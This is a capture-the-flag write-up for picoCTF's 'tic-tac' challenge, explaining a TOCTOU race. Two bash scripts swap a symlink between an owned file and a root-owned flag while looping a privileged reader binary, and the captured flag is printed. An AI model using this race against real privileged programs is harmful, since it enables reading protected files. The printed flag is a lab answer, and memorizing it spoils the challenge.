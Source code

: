 # tic-tac

TOCTOU Vulnerability

## Description of challenge

You are asked to ssh into a shell which home directory contains
1. `flag.txt`, that is owned by the root user and which you have no permissions to rwx to, 
2. [`src.cpp`](./src.cpp), and
3. `txtreader`, which is a binary owned by the root user (compiled from `src.cpp`) which can open flag.txt, and which you can execute. 

However, `txtreader` only opens files whose owner corresponds to `getuid()`, and thus we can't just run that binary to obtain the flag. 

## What is a TOCTOU vulnerability?

A Time-of-check Time-of-update (TOCTOU) vulnerability is a vulnerability arising from race conditions between checking the state of a part of a system and the use of the results of that check. 

In general, the implication of TOCTOU vulnerabilities is that applications cannot assume the state managed by the operating system will not change between system calls.

## TOCTOU in the context of the challenge

We first create `src1.cpp` as a symlink to `src.cpp`. 

Now consider the following scripts

#### **`script1.sh`**
```bash
FLAG="picoCTF{"
while true; do
    OUTPUT=$(./txtreader src1.cpp)
    if echo "$OUTPUT" | grep -q "$FLAG"; then
        echo "Flag found: $OUTPUT"
        break
    fi
done
```

#### **`script2.sh`**
```bash
while true; do
    ln -sf flag.txt src1.cpp
    ln -sf src.cpp src1.cpp
done
```

Let us also define the following chunks of bytecode in `txtreader` compiled from the following `src.cpp` source code 

#### **`owner_checker`**
```c
if (statbuf.st_uid != getuid()) {
    std::cerr << "Error: you don't own this file" << std::endl;
    return 1;
}
```

#### **`winner`**
```c
if (file.is_open()) {
    std::string line;
    while (getline(file, line)) {
      std::cout << line << std::endl;
    }
} else {
    std::cerr << "Error: Could not open file" << std::endl;
    return 1;
}
```

In short, the idea is to exploit the interleaving of execution of `script1.sh` and `script2.sh` (which will be run concurrently) such that the following desired order is eventually achieved due to numerous execution attempts
1. `ln -sf src.cpp src1.cpp` in `script2.sh`
2. `owner_checker` in `./txtreader src1.cpp` in `script1.sh`
3. `ln -sf flag.txt src1.cpp` in `script2.sh`
4.  `winner` in `./txtreader src1.cpp` in `script1.sh`

Note that `src1.cpp` is originally already created a symlink to `src.cpp`, so `script2.sh` starts off with step 3 before going to step 1. This doesn't realy matter since both scripts are in infinite while loops (or for `script1.sh`, at least until the flag is printed), so as the threads of execution interleave due to CPU scheduling, the possibility of our desired order occurring remains. 

To run the scripts in parallel, we use the command

```bash
./script2.sh & ./script1.sh
```

Notice how `script1.sh` is placed at the back because then it is foregrounded (so we can see its output) while `script2.sh` is backgrounded. 

## Flag

```bash
[1] 4958
Error: you don't own this file
Error: you don't own this file
Error: you don't own this file

...

Error: you don't own this file
Error: you don't own this file
Flag found: picoCTF{ToctoU_!s_3a5y_f482a247}
```
